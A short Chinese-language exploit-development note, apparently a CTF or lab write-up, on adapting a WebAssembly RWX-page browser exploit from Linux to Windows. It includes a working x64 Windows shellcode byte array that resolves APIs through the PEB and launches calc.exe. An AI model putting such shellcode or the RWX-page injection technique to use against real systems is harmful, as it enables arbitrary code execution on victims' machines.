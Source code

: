 到这里我们大概知道用了一个这个东西，就可以接到shellcode
（在win上再复现不出来就要去配linux环境了x）
![](../images/Pasted%20image%2020250508160030.png)
在win上跑一下原linux上的解可以看到，反汇编界面走到输出的RWX Wasm page addr位置报错
具体看了一下反汇编的内容和js中的shellcode是一样的

那么是不是把这个linux的shellcode改成win的就可以
结果发现我原来写的是x32的xx只好再写一个

总之写好了放在另一个里面导入是没问题的

```cpp
unsigned char shellcodecalc64[] =  
        "\xBA\x98\xFE\x8A\x0E\xE8\x22\x00\x00\x00\x68\x63\x61\x6C\x63\x59\x51\x48\x89\xE1"  
        "\x48\x31\xD2\x48\xFF\xC2\xFF\xD0\xBA\x7E\xD8\xE2\x73\xE8\x06\x00\x00\x00\x48\x31"  
        "\xC9\xFF\xD0\xC3\x65\x4C\x8B\x04\x25\x60\x00\x00\x00\x49\x8B\x78\x18\x48\x8B\x7F"  
        "\x30\x48\x31\xC9\x48\x8B\x47\x10\x48\x8B\x77\x40\x48\x8B\x3F\x66\x39\x4E\x18\x75"  
        "\xEF\x48\x89\xC7\x8B\x5F\x3C\x81\xC3\x88\x00\x00\x00\x48\x01\xFB\x8B\x03\x48\x89"  
        "\xFB\x48\x01\xC3\x8B\x43\x20\x49\x89\xF8\x49\x01\xC0\x8B\x4B\x18\xFF\xC9\x41\x8B"  
        "\x04\x88\x48\x89\xFE\x48\x01\xC6\x4D\x31\xC9\x48\x31\xC0\xFC\xAC\x84\xC0\x74\x09"  
        "\x41\xC1\xC9\x0D\x49\x01\xC1\xEB\xF2\x41\x39\xD1\x90\x75\xD9\x44\x8B\x43\x24\x49"  
        "\x01\xF8\x66\x41\x8B\x04\x48\x44\x8B\x43\x1C\x4D\x8D\x04\x38\x41\x8B\x04\x80\x48"  
        "\x01\xF8\xC3";

```


复刻到shellcode后先遇到了这个，显然0000的没有显示出来，怪不得解的shellcode有两串90
![](../images/Pasted%20image%2020250508145832.png)
